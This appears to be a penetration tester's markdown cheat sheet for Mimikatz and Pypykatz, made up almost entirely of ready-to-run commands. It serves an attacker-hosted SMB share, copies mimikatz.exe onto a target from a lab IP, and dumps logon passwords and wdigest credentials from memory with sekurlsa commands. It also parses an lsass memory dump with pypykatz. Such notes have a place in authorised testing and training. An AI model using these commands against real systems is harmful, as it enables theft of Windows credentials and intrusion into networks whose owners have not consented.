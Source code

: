 # Mimikatz

## Mimikatz

Locate
```
$ locate mimikatz.exe
/usr/share/windows-resources/mimikatz/Win32/mimikatz.exe
/usr/share/windows-resources/mimikatz/x64/mimikatz.exe
```

Host mimikatz
```
cd /usr/share/windows-resources/mimikatz/
impacket-smbserver share $(pwd) -smb2support
```


Copy to Target - x64
```
xcopy \\10.10.14.12\share\x64\mimikatz.exe C:\Temp\mimikatz\
```

Copy to Target - x86
```
xcopy \\10.10.14.12\share\Win32\mimikatz.exe C:\Temp\mimikatz\
```


All available creds
```
cd C:\Temp\mimikatz\
C:\Temp\mimikatz\mimikatz.exe "privilege::debug" "log sekurlsa.log" "sekurlsa::logonpasswords" exit
```

Only `wdigest`
```
cd C:\Temp\mimikatz\
C:\Temp\mimikatz\mimikatz.exe "privilege::debug" "log sekurlsa.log" "sekurlsa::wdigest" exit
```





## Pypykatz

Get secrets from memory dump
```
pypykatz lsa minidump --grep lsass.DMP
```